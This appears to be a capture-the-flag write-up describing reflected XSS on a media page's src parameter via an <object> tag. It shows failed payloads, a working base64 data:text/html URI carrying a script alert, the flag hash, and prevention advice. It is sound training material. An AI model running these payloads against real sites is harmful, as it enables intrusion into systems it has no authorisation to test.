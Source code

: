 [README.md](../../../README.md)
# XSS injection media page
## Reconnaissance
On the website home page, only one image is clickable.
Clicking on it leads us to the following link: `http://x.x.x.x/?page=media&src=nsa`

Upon inspecting the page, we discover an `<object>` HTML tag, which is known for its potential vulnerability to XSS injection.

## Exploit
By manipulating the `src` parameter in the URL, we attempt to launch an attack.

The following URL does not work and returns an error:
`http://x.x.x.x/?page=media&src=<script>alert(1)</script>`

This is likely because the URL does not support special characters like `/`.

To overcome this, we attempt to encode the URL in Base64:
- `<script>alert(1)</script>` -> `PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`

The modified URL does not work either:
`http://x.x.x.x/?page=media&src=bW9kdWxlPSJtZWRpYSZzcmM9PGJvZHk%2BYWxlcnQoMSk8L2JvZHk%2B`


To proceed, we add the following part to the URL to indicate that the subsequent content is encoded in Base64: `data:text/html;base64`
This gives us the working URL:: `http://x.x.x.x/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`


**Flag:**
```
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```
## Prevention
- Do not use the `<object>` HTML tag.
- Input sanitization mechanics to filter out malicious content.
- Content Security Policy (CSP) headers

See: [XSS Prevention](../../xss_feedback/Resources/xss_feedback.md#prevention)